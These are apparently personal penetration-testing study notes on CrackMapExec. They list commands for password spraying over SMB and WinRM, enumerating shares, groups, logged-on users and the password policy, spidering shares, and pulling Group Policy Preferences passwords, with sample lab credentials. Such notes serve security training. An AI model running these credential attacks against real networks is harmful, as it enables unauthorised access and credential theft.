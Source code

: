 passsupports remote authentication using MSSQL, SMB, SSH, WinRM

```shell-session
crackmapexec <proto> <target-IP> -u <user or userlist> -p <password or passwordlist>
```


```
crackmapexec winrm 10.129.32.197 -u user.list -p password.list
```
can use crackmapexec to view available shares and privileges 
```
crackmapexec smb <ip-address> -u "user" -p "password" --shares
```


`--continue-on` -> don't quit after finding just one

`--local-auth` -> if we are targetting non domain joined computer

we can try to find the passport policy using crackmapexec too
```shell-session
crackmapexec smb 172.16.5.5 -u avazquez -p Password123 --pass-pol
```

we can also use `--groups` to get domain group enumeration 
it must all be smb tho

`loggedon-users` to get more users
`shares` - to get other shares

getting more information from the share (like the list of files)
`-M spider_plus --share 'Share Name'`
the results will be saved to `/tmp/cme_spider_plus/ip of host.json`

Locating and Retrieving GPP Passwords with CrackMapExec
```shell-session
crackmapexec smb -L | grep gpp
```
authenticated search
```shell-session
crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 -M gpp_autologin
```